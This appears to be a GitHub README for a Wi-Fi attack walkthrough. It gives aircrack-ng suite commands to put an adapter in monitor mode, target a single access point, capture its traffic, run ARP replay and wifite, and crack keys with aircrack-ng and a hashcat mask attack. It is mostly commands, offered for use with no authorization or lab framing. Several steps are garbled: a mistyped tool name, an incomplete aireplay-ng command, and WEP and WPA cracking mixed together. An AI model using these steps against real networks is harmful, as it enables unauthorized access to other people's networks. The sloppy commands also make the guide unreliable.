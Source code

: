 # Wifi_attack


tools that I used : ALFA AC1200 AWUS036ACH

## First Step : install driver on Kali Linux

```
apt-get update
apt-get upgrade -y
apt-get dist-upgrade -y
apt-get install dkms`
apt-get install realtek-rtl88xxau-dkms
git clone https://github.com/aircrack-ng/rtl8812au.git`
cd rtl8812au   
make  
make install
```

lastly, you need to reboot your Kali Linux

## Second Step : Discovering Networks

Prior to looking for networks, you must put your wireless card into what is called "monitor mode". Monitor mode is a special mode that allows your computer to listen to every wireless packet. This monitor mode also allows you to optionally inject packets into a network.

To put your wireless card into monitor mode using airmon-ng:

`airmon-ng start wlan0`

To confirm it is in monitor mode, run "iwconfig" and confirm the mode.

Then, start airodump-ng to look out for networks:

`airodump-ng wlan0`

if airodump-ng could connect to the WLAN device, you'll see a screen like this:


![fetch-1](https://github.com/Nomade73/Wifi_attack/assets/23107011/def894f1-c1b6-477e-8df0-d6fd6e6e6a9d)


The current channel is shown in the top left corner.

After a short time some APs and (hopefully) some associated clients will show up.

The upper data block shows the access points found:

BSSID The MAC address of the AP
RXQ Quality of the signal, when locked on a channel
PWR Signal strength. Some drivers don't report it
Beacons Number of beacon frames received. If you don't have a signal strength you can estimate it by the number of beacons, the better the signal quality
Data : Number of data frames received 
CH : Channel the AP is operating on
MB : Speed or AP Mode. 11 is pure 802.11b, 54 pure 802.11g
ENC : Encryption 
ESSID : the network name. Sometimes hidden

the lower data block shows the clients found:

BSSID : The MAC of the AP this client is associated to 
STATION : The MAC of the client itself  
PWR : Signal strenght. Some driver don't report it
Packets : Number of data frames received
Probes: Network names (ESSIDs) this client has probed

## Third Step : Sniffing

Because of the channel hopping you won't capture all packets from your target net. So we want to listen just one channel and additionally write all data to disk to be able to use it for cracking:

`airodum-ng -c 11 --bssid 00:01:02:03:04:05 -w dump wlan0`

With the -c parameter you tune to a channel and the parameter after -w is the prefix to the network dumps written to disk. The "--bssid" combined with the AP MAC address limites the capture to the one AP. 

## ARP replay

First open a window with an airodump-ng sniffing for traffic. aireplay-ng and airodump-ng can run together. Wait for a client to show up on the target network. Then start the attack:

```
aireplay-ng --arp

sudo wifite --no-pmkid

sudo airodump-ng --band abg wlan0

```



## Cracking 

if you've got enough IVs captured in one or more file, you can try to crack the WEP key:

`aircrack-ng -w /usr/share/wordlists/rockyou.txt dump-01.cap`


## HashCat 


```
sudo apt install hcxtools

hcxpcapngtool -o hashcat_format dump-01.cap

```
transfer the hashcat_format to your machine (create a shared directory)

install the hashcat.exe

we have received a hashcat netmask ?u?d?l?l?u?l?s?s

on powershell : `.\hashcat.exe -m 22000 -a 3 . . \hashes\hashcat_format ?u?d?l?l?u?l?s?s  . . \hashes\optimized.txt `
